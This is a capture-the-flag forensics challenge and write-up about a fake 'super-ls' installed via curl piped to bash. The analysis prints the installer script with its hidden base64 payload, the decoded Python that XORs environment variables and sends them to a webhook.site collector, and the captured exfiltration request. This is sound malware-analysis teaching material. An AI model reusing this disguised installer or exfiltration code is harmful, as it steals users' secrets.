


# Super-ls

I found a forum post on how to install a super cool version of `ls` and it was super easy! `curl | bash` is so convenient, but the sad part is that super-ls seems very similar to normal `ls`.

CSIRT contacted me short time after and said there were some suspicious traffic from my machine. Hopefully someone can find out why my `ls` is not super.

The file is available to download below

[⬇️ traffic.pcap](./traffic.pcap)


# Writeup

Opening the pcap, there's a bunch of HTTP traffic. We can see the user tries to download a `super-ls installer`:


Looks like the user requests `GET /dqatt7c4cvcc1fc1/install.sh`. This returns a script:

```bash
#!/usr/bin/bash 

echo "[+] Installing super-ls"
cp /usr/bin/ls $HOME/.local/bin/super-ls
echo -ne '#####                     (33%)\r'
sleep 1
echo -ne '#############             (66%)\r'
sleep 1
echo -ne '#######################   (100%)\r'
echo -ne '\n'
echo "[+] Installed super-ls :D"


# Lots of newlines to hide this: 
echo "ZnJvbSBjdHlwZXMgaW1wb3J0ICoKZnJvbSBiYXNlNjQgaW1wb3J0IGI2NGVuY29kZSBhcyBlCmltcG9ydCByZXF1ZXN0cyBhcyBpCmltcG9ydCBvcwpsaWJjID0gQ0RMTCgibGliYy5zby42IikKCmlpID0gc3RyKG9zLmVudmlyb24pLmVuY29kZSgpCgpkZWYgbygpOiAKICAgIGdsb2JhbCByCiAgICByID0gciAqIGludCgobGVuKGlpKSAvIGxlbihyKSArIDEpKQogICAgcmV0dXJuICIiLmpvaW4oY2hyKGMgXiBvcmQoY2MpKSBmb3IgKGMsIGNjKSBpbiB6aXAoaWksIHIpKQoKCmRlZiB4KCk6CiAgICBmb3IgXyBpbiByYW5nZSgxMzM3KTogeSA9IHN0cihsaWJjLnJhbmQoKSkKICAgIGdsb2JhbCByCiAgICByID0gZSgiIi5qb2luKFtjaHIoaW50KHlbaTppICsgMl0pKSBmb3IgaSBpbiByYW5nZSgwLCBsZW4oeSksIDIpXSkuZW5jb2RlKCkpLmRlY29kZSgpLnJlcGxhY2UoIj0iLCAiIikKCgoKCngoKQppLmdldChmImh0dHBzOi8vd2ViaG9vay5zaXRlLzJhYmM1NjViLTU2YTQtNDZhZC1hN2RjLTc0NmJhZDg1YjYyNj94PXtlKG8oKS5lbmNvZGUoKSkuZGVjb2RlKCl9IiwgdmVyaWZ5PUZhbHNlKQo=" | base64 -d | python 2>/dev/null >/dev/null
```

When we decode the above base64, we get a Python script:

```python
from ctypes import *
from base64 import b64encode as e
import requests as i
import os
libc = CDLL("libc.so.6")

ii = str(os.environ).encode()

def o():
    global r
    r = r * int((len(ii) / len(r) + 1))
    return "".join(chr(c ^ ord(cc)) for (c, cc) in zip(ii, r))

def x():
    for _ in range(1337):
        y = str(libc.rand())
    global r
    r = e("".join([chr(int(y[i:i + 2])) for i in range(0, len(y), 2)]).encode()).decode().replace("=", "")

x()
i.get(f"https://webhook.site/2abc565b-56a4-46ad-a7dc-746bad85b626?x={e(o().encode()).decode()}", verify=False)
```

This script uses a simple XOR routine on `os.environ` to exfil environment variables to a known collector at `webhook.site`. We can see the request:

```bash
GET /2abc565b-56a4-46ad-a7dc-746bad85b626?x=IQc7KDFfDWwSagkMYzcKKAAEZApDY197JHEFV30IeyUiB0RoSWoRFHREfklqbmQcQ2MKIi83UQoqDD9meRBENAYpLCJeRGhJagATeTwPLBRmeRBEKQcoOjMBE3c2OXEcUgI3ARIid148JloSJXdeBHcbfTQwTURoSWoJDH0mY1NtZmxCDCsdam1jFzcBOwBmeRBEPB0oMy4XT2ROHgkPZi9jU21mcRdPZE4FFRdgMBs5Hw4baUR+SWpwcx5bfUd9b3UKW3RRfWZvEEQMPRkRHGAxCzEUZnkQRHVZY3l6HlNqX3d5cwhTY0VtZhNxNwxOd2FkHxY3G2ItLFMCKEY+IypeWWscPjNsXAwnCCFuIVkNfkY4MjEfECYAI3tsRRA2Ri8oLQpMNwskL3kfAS0Ham1jFzxjU21mbEUQNkYvKC0fEz0dJS4tF09kTgECHHM3HTkIZnkQRAdHGBUFHVtjFGQ= HTTP/1.1
```

That `x` param is our XORed data. We know `ii = str(os.environ).encode()` starts with `environ({'SHELL': '/bin/bas`. Plugging into something like CyberChef and trying `From Base64` then `XOR` with that known text reveals the environment variables:



Now we see the script repeated a short key. Input `environ({'SHELL': '/bin/bas` as known plain text. That yields:



So `super-ls` is just `ls` plus an environment-variable stealing payload. It's definitely not super at all!

# Writeup 2

I also figured out that you could extract the key by doing:

```python
from ctypes import CDLL
from base64 import b64encode
libc = CDLL("libc.so.6")

for _ in range(1337): y = str(libc.rand())
r = b64encode("".join([chr(int(y[i:i + 2])) for i in range(0, len(y), 2)]).encode()).decode().replace("=", "")
print(r)
```

It seems like libc's rand is not seeded, it starts at the same seed every time. Therefor it will always be the same key.